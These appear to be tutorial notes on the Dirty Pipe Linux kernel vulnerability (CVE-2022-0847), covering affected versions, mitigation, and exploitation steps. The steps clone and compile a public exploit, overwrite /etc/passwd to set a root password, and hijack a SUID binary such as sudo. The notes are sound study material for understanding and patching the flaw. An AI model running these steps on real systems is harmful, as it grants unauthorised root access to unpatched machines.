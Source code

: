 ### **Overview**

- _Dirty Pipe_ is a Linux kernel vulnerability discovered in 2022.
- Affects **kernel versions 5.8 to 5.17** (including Android kernels).
- Allows unprivileged users with read access to **overwrite arbitrary files**, including root-owned ones.
- Based on a flaw in the way Linux handles _pipes_.

---

### **Key Implications**

- Enables **local privilege escalation**.
- Can be used to:
    - Modify `/etc/passwd` to grant root access.
    - Hijack and run **SUID binaries** with root privileges.
- Similar in nature to the _Dirty COW (CVE-2016-5195)_ vulnerability.

---

### **Exploitation Steps**

 1. **Clone Exploit Repository**
```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

---

### **Exploit-1: Modify `/etc/passwd`**

 2. **Check Kernel Version**
```bash
uname -r
# Output example: 5.13.0-46-generic
```

3. Run Exploit-1
```bash
./exploit-1
# Sets root password to "piped"
```
---

### **Exploit-2: Hijack SUID Binary**

4. **Find SUID Binaries**
```bash
find / -perm -4000 2>/dev/null
```

 5. **Run Exploit-2 Against a SUID Binary**
```bash
./exploit-2 /usr/bin/sudo
```

---

### **Mitigation**

- Update kernel to a patched version beyond **5.16.11**, **5.15.25**, or **5.10.102**.
- Apply vendor patches as released by distributions.
- Restrict access to untrusted local users where possible.
